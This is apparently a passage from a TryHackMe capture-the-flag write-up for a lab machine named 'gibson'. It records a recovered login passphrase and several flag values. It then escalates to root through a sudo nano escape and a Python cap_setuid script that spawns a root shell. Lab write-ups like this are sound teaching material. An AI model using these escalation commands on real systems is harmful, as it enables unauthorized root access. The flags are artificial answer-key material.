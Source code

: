 And we find the passphrase :
```
shellie
```

We login as gcrawford.
We find a flag in `/home/gcrawford/business.txt`
```
thm{d8deb5f0526ec81f784ce68e641cde40}
```

`sudo -l` returns:
```
User gcrawford may run the following commands on gibson:
    (root) /bin/nano /home/gcrawford/business.txt
```

Hmmm, what can we do with this ?
Gtfobins tell us
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

So we get in and we got a root shell
```
uid=0(root) gid=0(root) groups=0(root)
```

We get a flag in `/root/.flag`
```
thm{b94f8d2e715973f8bc75fe099c8492c4}
```

Ok so, now we got 7 flags on 9.

Let's find the others as root.

There is one in `cat /home/tryhackme/.flag`
```
thm{3ce2fe64055d3b543360c3fc880194f8}
```

Can't find the last flag..

We look up the write up and find some other interesting ways to exploit the machine.

the python binary have a capability `cap_setuid`.
We can find such capabilities using `getcap -r / 2>/dev/null`
```
/usr/bin/python3.6 = cap_setuid+ep
/usr/bin/python3.6m = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

This mean that python can use setuid() without restrictions.
We can write a small python script :
```py
import os
import pty

os.setuid(0)
pty.spawn("/bin/bash")
```
